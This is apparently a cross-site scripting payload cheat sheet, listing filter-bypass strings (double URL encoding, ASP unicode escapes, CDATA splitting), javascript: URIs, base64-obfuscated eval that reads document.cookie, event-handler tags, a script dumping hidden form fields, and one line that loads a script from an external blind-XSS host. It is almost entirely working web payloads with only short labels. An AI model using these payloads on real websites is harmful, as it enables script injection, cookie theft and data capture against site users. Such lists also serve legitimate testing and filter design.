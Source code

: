 Older ASP encoding filter bypass
```%u003Cscript%u003Eprompt%u0028303%u0029%u003C/script%u003E```
Double URL encoded
```%253Cscript%253Ealert(1)%253C%252Fscript%253E```
XML Reflection XSS
```<![CDATA[<]]>script<![CDATA[>]]>alert('xss')<![CDATA[<]]>/script<![CDATA[>]]>```
Where :// is required after protocol
```javascript://%250aalert(1)```
XSS in email addresses
```"\"><s>test"@gmail.com```
  
```javascript:eval(atob('YWxlcnQoZG9jdW1lbnQuY29va2llKTs='));```

<script>eval(atob('YWxlcnQoZG9jdW1lbnQuY29va2llKTs='));</script>
<imG/sRc=l oNerrOr=(prompt)() x>
"><script src=https://a007.xss.ht></script>											Blind 
<body onpageshow=alert(1)>
<style onload=alert(1)>
<marquee behavior="alternate" onstart=alert(1)>hack the planet</marquee>
<d3"<"/onclick="1>[confirm``]"<">z
&lt;script&gt;confirm(1)&lt;/script&gt;                                              HTML Encoding
“=””’></><script></script><svg onload=alert(1)>
<script>var xss = '';f=document.forms;for(i=0;i<f.length;i++){e=f[i].elements;for(n in e){if(e[n].type=='hidden'){alert(e[n].name+': '+e[n].value)}}};//'';</script>    GET Hidden Fields
<table><thead style=font-size:100px onmouseover=prompt(1)><td>XSS
<svg/x=">"/onload=confirm()//
<sCript x>(((confirm)))``</scRipt x>

